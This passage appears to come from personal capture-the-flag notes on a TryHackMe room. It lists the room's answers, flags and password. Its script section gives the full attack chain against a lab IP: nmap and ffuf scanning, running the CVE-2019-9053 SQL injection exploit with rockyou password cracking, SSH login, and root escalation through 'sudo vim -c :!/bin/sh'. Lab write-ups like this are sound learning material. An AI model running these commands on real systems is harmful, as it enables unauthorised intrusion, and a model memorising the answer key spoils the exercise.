 		2. `cat root.txt`
			1. ![[Pasted image 20240726213515.png]]
		3. *Root Flag value*: `W3ll d0n3. You made it!`
8. *TASK 1 - Q & A*
	1. Hoe many services are running under 1000 port? `2`
	2. What is running on higher port? `ssh`
	3. Whats CVE's using against the application? `CVE-2019-9053`
	4. What Kind of vulnerability is the app vuln? `sqli`
	5. Whats the password? `secret`
	6. Where can you login with the details obtained? `ssh`
	7. Whats user flag? `G00d j0b, keep up!`
	8. is there any other users in the home directory? whats user name? `sunbath`
	9. Whats can you leverage to spawn privilege shell? `vim`
	10. Whats the root flag? `W3ll d0n3. You made it!`
		1. ![[Pasted image 20240726213543.png]]
###### Task Scripts
```sh
#0. Connect to EasyCTF Playground
sudo openvpn davoodya.ovpn
ifconfig
#1. Enumerating Target Server
sudo nmap -T5 -sS -sV -O 10.10.91.46
sudo nmap -T5 -sS -sV -O 10.10.91.46 --script vuln
#3. Initialize Dir Busting
ffuf -u http://10.10.91.46/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
#4. Find suitable CVE(SQL Injection)
searchsploit cms made simple
searchsploit cms made simple 2.2.8
searchsploit -m php/webapps/46635.py
nano 46635.py #Copy CVE Code => CVE-2019-9053

#5.Launching SQL Injection Exploit
"first copy all codes of CVE-2019-9053 python3 version from" ==> https://github.com/e-renna/CVE-2019-9053/blob/master/exploit.py
---
chmod +x new.py
nano new.py #Paste codes in here
python new.py #Test Script - usage guide
python new.py -u http://10.10.91.46/simple --crack -w /usr/share/wordlists/rockyou.txt #Start Attack

#6. Exploit SSH Services
ssh mitch@10.10.88.165 -p 2222
"Try with `secret` Password and also try with `blank` password"
ssh> ls
ssh> cat user.txt #Copy User Flag value 
"User Flag is:" G00d j0b, keep up!
cd /home/ ; ls #Copy Usernames on machine

#7. Post Exploit Phase - Escalation Privilege to Get Root Flag
sudo -l #vim use root access
sudo vim -c ':!/bin/sh' #switch to root with vim command
$> ls
$> cat root.txt #Copy Root Flag value 
"Root Flag is:" W3ll d0n3. You made it!
```
### Brute it. Learn Brute Forcing THM - E78
#### Room Description
- https://tryhackme.com/room/bruteit
	- ![[Pasted image 20240727194733.png]]
در ابن جلسه میخواهیم چالش Room بنام Brute it را حل کنیم. در این چالش حملات Brute Force را در مدل های متفاوت باید پیاده سازی کنیم تا بدین وسیله بتوانیم Task Room را Completed کنیم.